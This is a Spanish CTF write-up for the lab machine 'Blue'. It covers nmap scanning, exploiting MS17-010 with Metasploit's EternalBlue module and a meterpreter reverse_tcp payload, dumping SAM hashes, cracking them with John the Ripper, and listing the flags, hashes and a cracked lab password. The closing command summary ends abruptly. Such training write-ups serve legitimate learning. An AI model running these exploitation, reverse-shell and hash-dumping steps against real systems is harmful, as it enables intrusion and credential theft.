# Write-up Blue

**Autor**: Asier González

## Reconocimiento

La fase de reconocimiento empezó con un escaneo completo de puertos, servicios y versiones con `nmap`:

```bash
db_nmap -sC -sV -p- -T4 IP
```



Después lanzo un escaneo orientado a vulnerabilidades para identificar posibles vectores de entrada:

```bash
db_nmap -sV --script vuln IP
```



Los resultados muestran que el sistema es vulnerable a `MS17-010`, una vulnerabilidad crítica de SMB asociada al exploit EternalBlue.

Para localizar un módulo adecuado en Metasploit, hago la búsqueda:

```bash
search smb ms17 010
```

Y selecciono el módulo correspondiente:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```



## Explotación

Una vez cargado el módulo, configuro los parámetros necesarios:

- `RHOSTS`: IP de la máquina víctima
- `PAYLOAD`: `windows/x64/meterpreter/reverse_tcp`
- `LHOST`: IP de mi interfaz VPN

Después lanzo el exploit:

```bash
run
```

También se puede ejecutar con:

```bash
exploit
```

Si todo sale bien, obtengo una sesión de `meterpreter` en la máquina objetivo.

Nota: este exploit puede fallar en algunos intentos, así que a veces toca lanzarlo varias veces hasta que entre.



## Escalada de privilegios

En esta máquina no necesito una fase adicional de escalada manual. La explotación de `MS17-010` ya me deja directamente con privilegios elevados.

## Post-explotación

### Verificación de privilegios

Nada más entrar, compruebo el contexto con:

```bash
getuid
```

El resultado confirma que ya estoy como `NT AUTHORITY\SYSTEM`.



### Extracción de hashes

Como ya tengo privilegios elevados, vuelco los hashes locales sin problema:

```bash
hashdump
```



### Preparación para crackeo

Con los hashes obtenidos, preparo archivos de texto para pasárselos a John the Ripper:

```bash
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::" > hash.txt
echo "Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::" >> hashguest.txt
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::" >> hashjon.txt
```



Veo que `Administrator` y `Guest` comparten este valor:

```text
31d6cfe0d16ae931b73c59d7e0c089c0
```

Eso normalmente indica que tienen la contraseña en blanco.

### Crackeo de contraseñas

La wordlist que uso es `rockyou`, con este comando:

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```




El único usuario con contraseña definida es `Jon`, cuya contraseña es:

```text
alqfna22
```

## Obtención de flags

El siguiente paso es localizar las flags.

Desde la shell de `meterpreter`, primero hago:

```bash
pwd
```

Después me muevo al directorio raíz y listo el contenido:

```bash
cd /
ls
```

Ahí encuentro la primera flag, `flag1.txt`.



La leo con:

```bash
cat flag1.txt
```



Como la máquina es fácil, supongo que las demás flags seguirán el mismo patrón, así que hago una búsqueda general:

```bash
search -f flag*.txt
```



Con las rutas identificadas, solo queda entrar en cada ubicación y leer los archivos.




## Resultado

### Flags

- `flag1`: `flag{access_the_machine}`
- `flag2`: `flag{sam_database_elevated_access}`
- `flag3`: `flag{admin_documents_can_be_valuable}`

### Hashes obtenidos

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

### Credencial recuperada

- `Jon`: `alqfna22`

## Resumen de comandos directo a SYSTEM/root

1. `db_nmap -sC -sV -p- -T4 IP`
2. `db_nmap -sV --script vuln IP`
3. `search smb ms17 010`
4. `use exploit/windows/smb/ms17_010_eternalblue`
5. `set RHOSTS IP`
